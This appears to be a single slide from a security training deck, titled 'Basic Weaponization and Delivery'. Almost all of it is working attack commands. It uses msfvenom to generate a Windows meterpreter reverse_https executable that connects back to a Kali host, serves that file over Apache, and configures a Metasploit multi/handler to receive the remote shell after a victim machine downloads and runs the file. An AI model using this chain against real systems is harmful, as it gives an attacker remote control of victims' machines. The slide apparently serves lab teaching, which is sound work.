

# Basic Weaponization and Delivery
On your Kali (IP address of 192.168.248.130 ):
root@kali:~# msfvenom -p windows/meterpreter/reverse_https  LHOST=192.168.248.130 LPORT=443 -f exe >
/var/www/html/reverse_https.exe
root@kali:~# service apache2 start
On Kali:
root@kali:~# service postgresql start  root@kali:~# msfconsole
–msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https

msf exploit(handler) > set LHOST 192.168.248.130
–msf exploit(handler) > set LPORT 443
–msf exploit(handler) > exploit

Run Wireshark on Kali!
On Windows 7 victim machine
–	Surf  and download: http://192.168.248.130/reverse_https.exe

BORROWED